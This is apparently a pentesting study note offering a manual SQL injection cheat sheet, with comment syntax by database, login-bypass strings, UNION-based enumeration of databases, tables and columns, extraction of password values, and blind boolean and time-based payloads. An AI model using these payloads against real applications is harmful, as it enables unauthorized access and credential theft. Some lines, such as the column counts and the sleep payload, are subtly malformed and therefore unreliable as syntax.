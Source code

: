 ```yaml
---
title: SQLi Cheat sheet for manual injection
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting
---
```


# SQLi Cheat sheet for manual injection

See a more detailed [explanation about SQL injection](sql-injection.md).


### Manual UNION attack

```
# 0. Comments 
--comment       // Oracle
--comment       // Microsoft
/*comment*      // Microsoft
--comment       // PostgreSQL
/*comment*/     // PostgreSQL
#comment        // MySQL
-- comment      // MySQL [Note the space after the double dash]
/*comment*/     // MySQL

   
# 1. Bypass a form      
1' OR '1'='1';#
' OR '1'='1';#
1' OR '1'='1';-- - 
' OR '1'='1';-- -  


# 2. Number of columns (UNION attack)
1' OR '1'='1' order by 1;#
1' OR '1'='1' order by 2;#
1' OR '1'='1' order by 3;#
...
# Do this until you get an error message and then you will know the number of columns
# Another method to see the number of columns. 
' OR '1'='1' order by 1;-- -   

# 3. Get which column is being displayed. For instance, when we know we have 6 columns:
1' OR '1'='1' UNION SELECT all 1,2,3,4,5,6;# 

# 4. Get names of all databases 
1' OR '1'='1' UNION SELECT null,table_schema,null,null,null,null,null FROM information_schema.tables;#
# 5. Get names of all tables from the selected database
1' OR '1'='1' UNION SELECT null,table_name,null,null,null,null FROM information_schema.tables;# 

# 6. Get the name of all columns of a selected table from a selected database
1' OR '1'='1' UNION SELECT null,column_name,null,null,null,null FROM information_schema.columns WHERE table_name=’users’;#

# 7. Get the value of a selected column (for instance, password)
1' OR '1'='1' UNION SELECT null,passwords,null,null,null,null FROM users;#
```

### Manual SQLi Blind attack
          
user() returns the name of the user currently using the database.
substring() returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

```
' OR substring(user(), 1, 1) = 'a
' OR substring(user(), 1, 1) = 'b
1' AND SUBSTRING(user(), 1, 1 = 'r') sleep(0), sleep(10));#
```
